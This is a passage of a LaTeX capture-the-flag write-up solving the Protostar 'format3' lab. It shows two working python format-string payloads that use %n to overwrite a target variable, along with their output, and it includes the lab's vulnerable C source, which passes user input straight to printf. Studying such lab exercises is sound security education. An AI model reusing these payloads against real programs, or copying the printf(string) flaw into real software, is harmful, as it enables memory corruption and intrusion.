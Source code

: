 Searching online, we can see that it is possible to modify the values of multiple
memory location using the following line of code.

\begin{lstlisting}[language=bash]
python -c "print '\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08' + '%x.'*11 + '%n%n%n%n'" | ./format3
target is 58585858 :(
\end{lstlisting}

Now that we are able to confirm that we can modify the target variable, we will
try to inject the values that we want to write to these memory location. We
structure the attack such that it is based on groups of [Value, Address]. We
repeat this structure for the 4 bytes that we want to write, to inject the value
we use "\%u" as a mechanism to obtain the needed value and "\%n" to inject the value
into the memory location. We refer to the short python calculate in this website,
https://xavibel.com/2020/11/22/protostar-format-strings-level-3/ to obtain the
offset needed. Computing the values, we are able to create our format attack string.

\begin{lstlisting}[language=bash]
python -c "print '\x01\x01\x01\x01\xf4\x96\x04\x08\x01\x01\x01\x01\xf5\x96\x04\x08\x01\x01\x01\x01\xf6\x96\x04\x08\x01\x01\x01\x01\xf7\x96\x04\x08' + '%x.'*11 + '%220u%n%17u%n%173u%n%255u%n'" | ./format3
0.bffffad0.b7fd7ff4.0.0.bffffcd8.804849d.bffffad0.200.b7fd8420.bffffb14...
you have modified the target :)
\end{lstlisting}

\subsection*{Source code}

\begin{lstlisting}[language=c]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
\end{lstlisting}
